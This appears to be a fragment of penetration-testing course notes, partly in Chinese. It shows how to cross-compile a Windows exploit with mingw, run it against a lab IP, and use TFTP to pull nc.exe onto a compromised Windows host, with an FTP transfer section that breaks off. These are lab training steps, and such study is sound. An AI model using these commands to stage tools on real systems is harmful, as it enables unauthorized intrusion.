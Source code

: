 Kali下windows编译环境

apt-get install mingw-w64

i686-w64-mingw32-gcc 646-fixed.c -lws2_32 -o 646.exe

wine 646.exe 10.11.1.35

Uploading Files

1.TFTP

TFTP is a UDP based file transfer protocol

Windows operating systems up to Windows XP and 2003 contain a TFTP client, by
default. In Windows 7, 2008, and above, this tool needs to be explicitly added,
during installation.

the tftp client can work non-interactively, making the file transfer easy, if
the correct conditions exist.

server:

![](media/2fcd09cd7d3bff540480d9cd4516cf9b.png)

client:

tftp -i ip get nc.exe

2.Uploading Files with FTP

Windows operating systems contain a default FTP client that can also be used for
file transfers. As we’ve previously seen, the ftp.exe client is an interactive
program that requires input to complete. We will need to solve this problem
before attempting to use FTP as a file transfer protocol.

![](media/43838dfb61f12cebcb50479ebf849a7c.png)
